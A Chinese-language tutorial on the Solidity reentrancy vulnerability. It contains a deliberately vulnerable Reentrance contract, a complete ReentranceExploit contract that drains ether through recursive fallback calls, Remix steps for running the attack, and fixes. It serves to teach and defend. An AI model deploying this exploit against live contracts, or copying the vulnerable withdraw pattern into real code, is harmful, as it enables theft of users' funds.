






# 01.Reentrancy - 重入

## 漏洞等级
**高危**

## 漏洞成因
`重入攻击`, 也可以说是`递归调用`漏洞。`漏洞合约`的`漏洞函数`对`恶意合约`发起调用后，`恶意合约`再次发次对`漏洞合约`的`漏洞函数`的调用，如果`恶意合约`被允许调用`漏洞函数`且调用成功也就发生了`重入`。
通常漏洞由合约发起`<Address>.call.value()()`发送ether到`外部合约`,从而触发`外部合约`的`回退函数` - [fallback()](http://solidity.readthedocs.io/en/v0.4.21/contracts.html#fallback-function)导致的。
> 合约接收ether的时候会触发fallback()
>
> 合约被调用函数不存在,也会fallback())

## 漏洞危害
由于`漏洞函数`执行过程调用`不可信合约`或者使用`具有外部地址`的`低级函数`,`漏洞合约`的`合约状态`被改变,`漏洞函数`的`运行结果`也将`不可信`。以`The DAO`事件为例,攻击者的恶意的递归调用使`The DAO`损失了`350万ETH`,也导致了以太坊的分叉。

## 漏洞测试方法

### 测试环境
推荐并尽量使用 `Remix - Solidity IDE` 进行复现
(部分漏洞使用`truffle`本地搭建环境进行补充复现)

[Remix - Solidity IDE](http://remix.ethereum.org/#optimize=false&version=soljson-v0.4.24+commit.e67f0147.js)

### 编译合约

将以下两个合约直接复制粘贴到 Remix 的代码框中

#### 被攻击合约:

**Reentrance**
```
pragma solidity ^0.4.15;

contract Reentrance {
    mapping (address => uint) userBalance;
   
    // 返回地址u的余额
    function getBalance(address u) constant returns(uint){
        return userBalance[u];
    }

	// 对合约充值ether
    function addToBalance() payable{
        userBalance[msg.sender] += msg.value;
    }   
	
    // 从合约取款
    function withdrawBalance(){
        // 发送 userBalance[msg.sender] ethers 到 msg.sender
        // 如果 mgs.sender 是一个合约, 这将会触发 msg.sender 地址上的合约的回退函数 fallback()
        if( ! (msg.sender.call.value(userBalance[msg.sender])() ) ){
            throw;
        }
        // 取款完成后将 userBalance[msg.sender] 归零
        userBalance[msg.sender] = 0;
    }   
   
}

```
#### 攻击者合约:
**ReentranceExploit**
```
contract ReentranceExploit {
    // 被攻击合约的地址
    address public vulnerable_contract;
    // 当前合约的拥有者
    address public owner;

    function ReentranceExploit() public{
    	// 合约拥有者为合约创建者
        owner = msg.sender;
    }

    function deposit(address _vulnerable_contract) public payable{
        vulnerable_contract = _vulnerable_contract ;
        // 发送 msg.value ethers 到 vulnerable_contract.addToBalance()
        // 使当前攻击者合约在被攻击合约中有余额 即 vulnerable_contract.userBalance[msg.sender] > 0
        // vulnerable_contract.userBalance[msg.sender] 就是攻击者每次递归调用偷取的ether(wei)量
        require(vulnerable_contract.call.value(msg.value)(bytes4(sha3("addToBalance()"))));
    }

    function launch_attack() public{
        // 调用 vulnerable_contract.withdrawBalance
        // withdrawBalance calls the fallback of ReentranceExploit
        require(vulnerable_contract.call(bytes4(sha3("withdrawBalance()"))));
    }  


    function () public payable{
        // 当本合约发起攻击后,vulnerable_contract 会发送ether到本合约从而触发本合约回退函数fallback()
        // 本合约fallback() 中会再次调用 vulnerable_contract.withdrawBalance() 进行取现
        // 由于 vulnerable_contract 先进行发送ether后修改userBalance[msg.sender
        // 此时 vulnerable_contract.userBalance[msg.sender] 会一直不变
        // 从而每次调用会从vulnerable_contract合约中取出userBalance[msg.sender] (wei) ether
        // 直到将vulnerable_contract 的 ether 取空(剩余量小于vulnerable_contract.userBalance[msg.sender] (wei))
        vulnerable_contract.call(bytes4(sha3("withdrawBalance()")));
    }

    function get_money(){
    	// 执行 suicide 自毁函数,将当前攻击者合约销毁
        // 并且将攻击者合约中的ether全部发送到owner账户中
        suicide(owner);
    }

}

```



### 切换到 `run` 面板
1. 点击 `deploy` 按钮部署 `Reentrance` 合约



2. 修改Value为 `50` ,单位为 `ether`
点击 `addToBalance` 给 `Reentrance` 合约进行充值ether,




3. 切换到Account 2:`0x14723a09acff6d2a60dcdf7aa4aff308fddc160c`,选择`ReentranceExploit`,点击 `Deploy`



4. 修改`Value` 为 `10` ether,然后复制 `Reentrance` 合约地址,粘贴到 `ReentranceExploit`的`deposit`参数框中,
点击`deposit`按钮进行充值ether到`Reentrance`合约



5. 点击 `launch_attack` 按钮进行攻击

6. 点击 `get_money` 按钮进行销毁攻击者合约,并且返回ether到owner账户,
可以看到Account 2增加了`50` ether




## 修复建议

1. 最好避免使用`<Address>.call.value()()`这种形式发送ether,建议使用更安全的`<Address>.transfer()`

>推荐使用`<Address>.transfer()`而不是`<Address>.send()`,`<Address>.send()`在发送是失败的时候只会返回`false`,
>而`<Address>.transfer()`则会抛出异常,引发evm操作回滚,更为安全。

示例代码:

```    
function withdrawBalance(){
	// send() 和 transfer() 都可以防止重入
	// 他们在调用时不会发送所有的gas,(仅发送2300gas)
	// 这样调用函数部分只能执行很少的操作
	// 从而使fallback()函数不能完整执行
	msg.sender.transfer(userBalance[msg.sender]);
	userBalance[msg.sender] = 0;
}  

```

2. 可以采取先扣除余额再发送ether的形式(不是非常建议,除非合约必须使用`<Address>.call.value()()`这种形式,否则都采取上面的建议)

示例代码:
```
function withdrawBalance(){
    uint amount = userBalance[msg.sender];
    userBalance[msg.sender] = 0;
    if( ! (msg.sender.call.value(amount)() ) ){
        throw;
    }
}   
```

> 参考:
>
>[DASP - TOP 10](
https://www.dasp.co/)
>
>[github:not-so-smart-contracts/reentrancy](
https://github.com/trailofbits/not-so-smart-contracts/tree/master/reentrancy)
>
>[以太坊智能合约安全入门了解一下（上）](
http://rickgray.me/2018/05/17/ethereum-smart-contracts-vulnerabilites-review/)

Contact me: ***root@blockchain-security.info***
